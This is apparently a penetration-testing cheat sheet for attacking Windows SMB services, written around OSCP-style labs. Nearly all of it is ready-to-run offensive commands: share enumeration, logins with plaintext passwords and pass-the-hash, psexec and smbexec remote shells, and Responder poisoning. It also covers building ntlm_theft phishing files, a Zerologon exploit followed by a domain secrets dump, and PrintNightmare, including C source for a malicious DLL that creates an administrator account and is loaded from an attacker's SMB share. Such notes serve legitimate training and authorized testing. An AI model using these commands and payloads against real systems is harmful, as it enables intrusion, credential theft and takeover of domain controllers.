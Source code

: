 ### General Enumeration
```
enum4linux -a -v 192.168.211.13
enum4linux -a -v -u '' -p '' ip 
nmap --script "smb-vuln*" -p 139,445 ip
```
### User Enumeration
```
nxc smb 10.10.11.108 -u '' -p '' --rid-brute
impacket-samrdump domain/user:pass@
```
![image](https://github.com/user-attachments/assets/fbb53200-b7f1-489d-a5fa-80a576a8e1ab)

### SMB Common Credentials
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/0375631b-bc54-4127-b160-d04df1a8538a)

### smb list shares and share permissions
```
smbmap -H 192.168.238.220 -d skylark.com -u backup_service -p It4Server
smbclient -L 192.168.188.222 -U skylark.com/Administrator%MusingExtraCounty98
nxc smb ip -u username -p pwd --shares
```
smb list share with guest account
```
smbmap -H 192.168.200.172 -u guest -p ''
smbmap -H 192.168.200.172 -u guest
smbmap -H 192.168.200.172 -u nobody -p ''
```
smb list shares anonymously
```
smbclient -L //ip | smbclient -L //ip -N 
smbmap -H ip -u anonymous | smbmap -H ip -u anonymous -p ''
nxc smb 10.10.150.236 -u anonymous -p '' --shares
```
### smb connect to share
```
smbclient //172.16.196.13/IPC$(sharename) -U domain/offsec%lab -port
smbclient //192.168.188.222/IPC$ -U skylark.com/Administrator%MusingExtraCounty98
smbclient //10.10.10.192/admin$ -U 'svc_backup' --pw-nt-hash 9658d1d1dcd9250115e2205d9f48400d
```
smb connect share with guest account
```
smbclient //192.168.200.172/DocumentsShare -U vault.offsec/guest
```
smb connect share anonymously
```
smbclient //ip/share
```
### smb download
```
Download directory:
kali: smbget -R smb://192.168.236.249/C$/staging/.git -U relia.com/damon%pass
kali: pth-smbget --dots --recursive -U oscp.exam/web_svc%Diamond1 smb://10.10.77.152/SYSVOL/oscp.exam/scripts

smbclient
1. smbclient //10.10.77.152/SYSVOL -U oscp.exam/web_svc%Diamond1
2. cd to the path where shows the directory that you wanna download
3. prompt off
4. recurse ON
5. mget *
6. type y to all prompts
```
### smb mount
```
sudo mount -t cifs -o port=4455 //10.11.0.22/Data -o username=Administrator,password=Qwerty09! /mnt/win10_share
```
### smb commands
```
get file
put file
pwd
ls
```

### SMB shell 
Require writable Admin share and C share  
Require administrators local group  
Require file and printer Sharing  
Tool: psexec.py  
Shell Type: Interactive Shell  
Required Ports: 445 or SMB  
The typical tool to take advantage of this open port is psexec. But this is a very noisy method. Even though AV evasion is not something to worry about in PEN200 (it is on PEN300) But I still want to point it out. Default Windows AV caught this during my tests. Even though I turned it off for all these demonstrations
```
crackmapexec smb 10.10.139.11 -u backup_service -p It4Server --shares(check if credential has admin right)
kali: impacket-psexec backup_service:It4Server@10.10.139.11
kali: impacket-psexec tom_admin@10.10.118.152 -hashes aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc
kali: impacket-smbexec timelapse.htb/administrator:'%A2Aj3d9h3%x-]BXE.gI+l6D'@10.10.11.152
```
### Windows built-in command to list smb shares and map smb share to drive
```
net view \\10.191.21.18
net use F: \\10.191.21.18\testshare
net use S: "\\10.191.21.18\GSP Shared Folder"
```
### Netlogon Share
> Active Directory logon scripts are saved in the NETLOGON share by default

![image](https://github.com/user-attachments/assets/4cfcce22-9f4d-4437-bafd-5d41cda7b208)

### LLMNR/NBT-NS Poisoning through SMB
>OSCP exam only allow Analyze mode by -Av
```
Listener:
sudo responder -I tun0 -v
impacket-smbserver xingdi Desktop -smb2support

Access:
\\IPv4 address\test || //ip/test
```
###### NTLM_THEFT (https://github.com/Greenwolf/ntlm_theft/tree/master):
ntlm_theft is an Open Source Python3 Tool that generates 21 different types of hash theft documents. These can be used for phishing when either the target allows smb traffic outside their network, or if you are already inside the internal network.
```
Browse to Folder Containing
.url – via URL field
.url – via ICONFILE field
.lnk - via icon_location field
.scf – via ICONFILE field (Not Working on Latest Windows)
autorun.inf via OPEN field (Not Working on Latest Windows)
desktop.ini - via IconResource field (Not Working on Latest Windows)

Open Document
.xml – via Microsoft Word external stylesheet
.xml – via Microsoft Word includepicture field
.htm – via Chrome & IE & Edge img src (only if opened locally, not hosted)
.docx – via Microsoft Word includepicture field
.docx – via Microsoft Word external template
.docx – via Microsoft Word frameset webSettings
.xlsx - via Microsoft Excel external cell
.wax - via Windows Media Player playlist (Better, primary open)
.asx – via Windows Media Player playlist (Better, primary open)
.m3u – via Windows Media Player playlist (Worse, Win10 opens first in Groovy)
.jnlp – via Java external jar
.application – via any Browser (Must be served via a browser downloaded or won’t run)

python3 ntlm_theft.py -g all -s 192.168.45.172(The IP address of your SMB hash capture server) -f contracts
```
### Zerologon CVE-2020-1472
```
Detect:
nxc smb ip -u username -p pass -M zerologon

Exploit:
python3 cve-2020-1472-exploit.py Monteverde(dc-name) 10.10.10.172(dc-ip)
impacket-secretsdump 'megabank.local'/'Monteverde$'@10.10.10.172 -just-dc -no-pass 
```
### Printnightmare CVE-2021-1675 CVE-2021-34527
```
impacket-smbserver test . -smb2support

#include <stdlib.h>
#include <windows.h> //appened code
//name:myDLL.cpp

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add"); //appened code
  	    i = system ("net localgroup administrators dave2 /add"); //appened code
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}


 x86_64-w64-mingw32-gcc adduser.cpp --shared -o adduser.dll

python3 printnightmare.py -dll '\\10.21.176.25\test\adduser.dll' 'svc-admin:management2005@10.10.211.60'
```
